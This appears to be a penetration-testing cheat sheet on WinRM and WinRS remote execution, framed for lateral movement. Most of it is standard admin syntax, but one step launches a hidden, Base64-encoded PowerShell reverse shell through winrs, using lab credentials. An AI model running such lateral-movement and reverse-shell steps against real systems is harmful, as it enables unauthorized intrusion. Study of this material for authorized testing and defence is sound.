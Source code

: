 # WinRM (Windows Remote Management)
As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

**Use Cases**: PowerShell Remoting, lateral movement, remote command execution.  
**Protocol**: HTTP/5985 (WinRM) or HTTPS/5986 (WinRM over SSL).  
**Note**: For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

---

### **1. Basic WinRS Usage**
```cmd
winrs -r:TARGET_HOST -u:USERNAME -p:PASSWORD "command"
```
**Flags:**  
- `-r:` Target hostname/IP  
- `-u:` Domain username (`domain\user` format if needed)  
- `-p:` Plaintext password  
- `-ssl` Use HTTPS (port 5986) instead of HTTP (5985)  

---

### **2. Command Execution Examples**
**Simple command:**  
```cmd
winrs -r:client9 -u:jen -p:Nexus123! "hostname"
# or with IP
winrs -r:192.168.139.70 -u:jen -p:Nexus123! "hostname"
```

**Multi-command execution:**  
```cmd
winrs -r:client9 -u:jen -p:Nexus123! "cmd /c hostname & whoami & ipconfig"
```

**Reverse shell (Base64 encoded PowerShell):**  
use **Encoded** shell from [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)
```cmd
winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e <BASE64_PAYLOAD>"
```

---

### **3. PowerShell Remoting (WinRM)**
**Create PSCredential object:**  
```powershell
$cred = New-Object System.Management.Automation.PSCredential('jen', (ConvertTo-SecureString 'Nexus123!' -AsPlainText -Force))
```

**New session:**  
```powershell
$session = New-PSSession -ComputerName 192.168.50.73 -Credential $cred
```

**Enter session:**  
```powershell
Enter-PSSession -Session $session
```

**Run command remotely:**  
```powershell
Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
```

---

### **5. Troubleshooting**
**Verify WinRM is running:**  
```cmd
winrm enumerate winrm/config/listener
```

**Check firewall rules:**  
```cmd
netsh advfirewall firewall show rule name=all | findstr "5985 5986"
```

**Test connectivity:**  
```powershell
Test-WSMan -ComputerName TARGET_IP
```

---

### **6. Key Requirements**
1. Target must have WinRM enabled (`Enable-PSRemoting`)  
2. User must be in:  
   - **Remote Management Users** group (basic access)  
   - **Administrators** group (full privileges)  
3. Ports open: 5985 (HTTP) / 5986 (HTTPS)

   

